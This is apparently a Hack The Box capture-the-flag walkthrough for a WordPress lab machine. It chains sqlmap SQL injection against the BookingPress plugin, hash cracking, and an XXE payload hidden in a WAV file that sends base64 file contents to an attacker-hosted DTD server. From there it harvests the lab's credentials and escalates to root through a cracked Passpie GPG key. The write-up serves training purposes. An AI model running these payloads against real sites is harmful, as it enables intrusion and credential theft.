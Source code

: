 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
## 🌐 Recon Phase

### Nmap Full Port Scan + Service Version Detection
```bash
nmap -p- --min-rate 10000 10.10.11.186
nmap -p 21,22,80 -sCV 10.10.11.186
```

### Add Host Mapping
```bash
echo "10.10.11.186 metapress.htb" | sudo tee -a /etc/hosts
```

### [Wfuzz for Subdomains](HTTP.md)
```bash
wfuzz -u http://10.10.11.186 -H "Host: FUZZ.metapress.htb" \
-w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 145
```

---

## 🧨 SQL Injection (BookingPress Plugin)

### Identify Nonce from Page Source
```bash
# Example nonce found in /events/ page JS
'_wpnonce=6027d5fa3e'
```

### SQLMap Setup
Save this as `sqli.req` (modified from Burp):
```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
Content-Type: application/x-www-form-urlencoded

action=bookingpress_front_get_category_services&_wpnonce=6027d5fa3e&category_id=33&total_service=223
```

### Run SQLMap
```bash
sqlmap -r sqli.req -p total_service --dbs
sqlmap -r sqli.req -p total_service -D blog --tables
sqlmap -r sqli.req -p total_service -D blog -T wp_users --dump
```

---

## 🔐 Cracking WordPress Hash

### Save Hashes
```text
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

### Hashcat
```bash
hashcat -m 400 -a 0 wp.hashes /usr/share/wordlists/rockyou.txt --username
# Cracked: manager:partylikearockstar
```

---

## 🎯 XXE Exploit for File Disclosure

### payload.wav
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.14.6/evil.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```

### evil.dtd (serve via Python HTTP server)
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.6/?p=%file;'>">
```

### Serve DTD
```bash
python3 -m http.server 80
```

---

## 🔐 Extract [FTP](FTP) + DB Credentials

From `evil.dtd`, modify to target:
```xml
php://filter/convert.base64-encode/resource=../wp-config.php
```

Expected credentials:
```php
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
```

---

## 📂 FTP Enumeration

```bash
ftp metapress.htb@metapress.htb
# Enter password from wp-config
```

Check files in `/mailer/send_email.php` → extract SMTP creds:
```php
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

---

## 🧑‍💻 Shell as `jnelson`

```bash
sshpass -p 'Cb4_JmWM8zUZWMu@Ys' ssh jnelson@metapress.htb
cat ~/user.txt
```

---

## 🧬 Privilege Escalation via Passpie + GPG

### Extract `.keys` and Format with `gpg2john`
```bash
scp jnelson@metapress.htb:~/.passpie/.keys keys
gpg2john keys | tee gpg.hash
```

### Crack with John
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt gpg.hash
# Found passphrase: blink182
```

### Retrieve Root Password via Passpie
```bash
passpie copy --to stdout --passphrase blink182 root@ssh
# Output: p7qfAZt4_A1xo_0x
```

---

## 🟢 Root Shell

```bash
su -
# Enter root pass: p7qfAZt4_A1xo_0x
cat /root/root.txt
```